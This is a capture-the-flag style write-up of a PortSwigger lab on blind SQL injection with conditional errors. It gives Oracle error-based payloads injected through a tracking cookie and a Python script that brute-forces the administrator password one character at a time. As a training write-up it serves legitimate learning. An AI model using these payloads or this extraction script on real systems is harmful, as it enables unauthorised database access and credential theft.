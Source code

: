 # Lab010: Blind SQL injection with conditional errors
* url: `https://portswigger.net/web-security/sql-injection/blind/lab-conditional-errors`
* vulnerability: `Blind SQL injection with conditional errors`


## Description 
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## Proof of Concept
1. Navigate to any of the hyperlinks for `Product Category`, and intercept the request with Burp Suite 
2. Right click on the `GET` request and send the request to `Repeater` for further inspection and tests  
![descript](images/sqli-practitioner-lab10-repeater.png)
3. I test the `TrackingId` cookie with the injections of `'` and `''` to see how the web application responds.
The web application gives an `internal server error` when I inject a single quote to the trackingid value, however
when I inject two single quotes to the value of the trackingid cookie, it does not give me an error.
Although this is not proof that SQLi vulnerability exists, it's a good indication. 
> In many databases (including Oracle), `' '` is interpreted as a **literal** single quote `'`. This
fixes the syntax, and the query works normally again. No error returned. 

4. When you inject something like a malicious payload into a web application, there could be 
many reasons the application returns an error like:  
* **SQL Errors**: The server runs your input as `SQL`, and your input causes a `SQL syntax error`
* **Application-Level Errors**: The server might have other security mechanisms that reject
`invalid input` before it even gets to the database  
To confirm that the error is related to `SQL syntax`, I need to see if the server is processing
my input as part of an `SQL query`. If the error is SQL-related, it means the server is treating
my input as SQL, and I have successfully injected something that the database interprets. 
5. In step 3, the injection of a single quote `'` caused an error, however it did not specify
what kind of error. It only returned `internal server error`. To confirm that the error is SQL-syntax
related, I can inject a subquery like: `'||(SELECT '')||'`. This will create a valid query like:
`SELECT * from tracking where id = 'xyz' || SELECT('') || ''`
> This will take `xyz` concatenate it with the rest of the subquery (select ''), which is an 
empty string and finally concatenates it to another empty string after that. This ensures that 
the SQL query's syntax is still valid and should run as if nothing was changed for the cookie's value. 

![descript](images/sqli-practitioner-lab10-check.png)  
6. As you can see from running the payload in the request, I still reach an `internal server error`.
I can test if the target DBMS is `Oracle` by adding a `FROM dual` statement in the subquery.  
![descript](images/sqli-practitioner-lab10-dual.png)  
7. Because I reached a status code of 200 OK, I can conclude that I'm dealing with an Oracle
database and that the DBMS is interpreting my input as SQL code.  
8. Now I can utilize Oracle's `ROWNUM` in order to check for the existence
of the users table (even though I know it exists already, its a good habit to have). 
```
1. Why use ROWNUM instead of LIMIT? 
  - Oracle DBMS doesn't recognize the LIMIT keyword. Instead, Oracle uses ROWNUM to limit 
  the number of rows that is retrieved from a query. 

2. Why use ROWNUM in the first place? Why can't I do something like SELECT '' from users? 
  - If the subquery returns more than one row of data, Oracle doesn't know how to concatenate
  multiple rows of data. 

3. Why didn't I have to use ROWNUM = 1 in the subquery of: SELECT '' FROM dual?
  - In Oracle, dual is a special table that always contains exactly one row, because 
  it only has one row. 

4. TIP: in the context of SQLi and concatenation, you generally want to return just one 
result to concatenate it cleanly with other parts of the query. 
```
9. Now that I have the general feel of the web application's DBMS, I can send payloads to 
test its responses to errors and non-errors in SQL statements:  
* `'||(SELECT CASE WHEN 1=1 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`
* `'||(SELECT CASE WHEN 1=2 THEN TO_CHAR(1/0) ELSE '' END from dual)||'`   
![descript](images/sqli-practitioner-lab10-case-true.png)  
![descript](images/sqli-practitioner-lab10-case-false.png)  
10. Notice how the main difference in response is the existence of the `internal server error` message. 
I can use this error message to check for the existence of a user called `administrator` in the `users`
table. If i see an error, I'll know that the `administrator` user exists. Keep in mind that the 
`WHERE` clause is evaluated first before any other parts of the query, including `CASE`.
Payload: `'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')'`  
![descript](images/sqli-practitioner-lab10-admin-check.png)   
I can use payloads like this and the existence of an error message to extract any piece of 
information from the DBMS! 
11. To check for the length of the password for `administrator`, I send payloads like: `'||(SELECT CASE WHEN LENGTH(password)=1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
I slowly increment the length of password until I see an error (The password length is 20).   
![descript](images/sqli-practitioner-lab10-length.png)  
12. Next I can use Burp Intruder to evaluate each exact character of the password for administrator user, but because I have the community version, it would be faster for me to write a simple python script.
The payload I will be using is: `'||(SELECT CASE WHEN SUBSTR(password, 1, 1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'`
```
import requests

# global variables 
url = "https://0aa90077033940cc8022089d0001001c.web-security-academy.net/"
characters = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
password = ""

for x in range(1, 21): 
    for c in characters:
        cookie = dict(TrackingId=f"QGdCCTMOZUdb6ReG'||(SELECT CASE WHEN SUBSTR(password, {x}, 1)='{c}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username = 'administrator')||'")
        r = requests.get(url, cookies=cookie)
        
        if r.status_code == 500: 
            password += c
            print(f"Found {c} at index {x}")
            break

print(f"The password is: {password}")
```
13. The password I got from this script is `i6br70xqlemjg6q5ir4i`. So I can go ahead and use `administrator` as the user and `i6br70xqlemjg6q5ir4i` as the password to log in and solve the lab!


## Notes
* `CASE` is used for conditinal logic within queries, similar to `if-else` statements in programming. It allows you to create new fields or modify values based on conditions 
* Syntax: 
  * `SELECT column1, CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result END FROM table_name;`
  * `SELECT CASE WHEN condition1 THEN result1 WHEN condition2 THEN result2 ELSE default_result FROM table_name;`
* `Oracle DBMS` require a `FROM` statement for a valid SQL query! 
  * `dual` is a special table in oracle that exists by `default`. You can utilize this 
  information by using `dual` as a `dummy` table!
* `ROWNUM` gives each row in the result a number, starting from 1
  * so combining the `WHERE` clause in a SELECT statement will return the first row if: 
  `... WHERE ROWNUM = 1`
* `TO_CHAR` is a function in SQL (primarily in Oracle) taht converts data into a string format
  * other DBMS like PostgreSQL and MySQL have similar functions, but they may use different names
  like `CAST()` or `CONVERT()`
